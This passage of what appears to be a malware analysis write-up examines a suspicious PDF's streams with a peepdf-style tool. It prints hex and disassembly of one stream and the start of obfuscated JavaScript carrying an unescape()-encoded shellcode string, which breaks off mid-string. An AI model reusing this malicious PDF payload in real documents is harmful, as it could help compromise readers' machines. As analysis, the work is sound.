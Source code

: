 {{< /codecaption >}}

Seems like streams 1,2 and 3 are interesting. According to the tutorial ``pdfvi`` displays them.

* FlateDecode: Decompress. In Python do ``zlib.decompress``
* ASCIIHexDecode: Decode from ASCII Hex
* JBIG2Decode: Decode as a black and white image

What really threw me off was the ``JBIG2Decode`` decoder for stream 2. There was a [vulnerability](http://vrt-blog.snort.org/2009/02/have-nice-weekend-pdf-love.html) associated with it. It is too short to be the email (14 bytes). It is not compressed (lacks the magic headers). ``Pyew`` also displays the disassembly but it is not shellcode either (if it is, then I didn't recognize it). It is also not an image (hence the ``JBIG2Decode`` filter).

{{< codecaption lang="nasm" title="Stream 2" >}}
Applying Filter FlateDecode ...
Applying Filter ASCIIHexDecode ...
Applying Filter JBIG2Decode ...
Encoded Stream 2
--------------------------------------------------------------------------------
0000   00 20 50 FF 40 00 00 69 00 00 05 69 50 50          . P.@..i...iPP
--------------------------------------------------------------------------------

Show disassembly (y/n)? [n]: y
0x00000000 (02) 0020                 ADD [EAX], AH
0x00000002 (01) 50                   PUSH EAX
0x00000003 (03) ff40 00              INC DWORD [EAX+0x0]
0x00000006 (03) 0069 00              ADD [ECX+0x0], CH
0x00000009 (01) 00                   DB 0x0
0x0000000a (01) 05                   DB 0x5
0x0000000b (01) 69                   DB 0x69
0x0000000c (01) 50                   PUSH EAX
0x0000000d (01) 50                   PUSH EAX

{{< /codecaption >}}

Let's take a look at stream 1 using ``pdfvi``.

{{< codecaption lang="js" title="Stream 1" >}}

[0x00000000]> pdfvi
Applying Filter FlateDecode ...
Applying Filter ASCIIHexDecode ...
Encoded Stream 1
--------------------------------------------------------------------------------
    var HdPN = "";
    var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
    
    // important
    var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%
ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9
ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412
d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%
u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub
7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7
e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%
u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4
190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21b
f%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%
uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u7
69b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb
0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%
u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4
879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u881
4%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%
ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7
b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u257
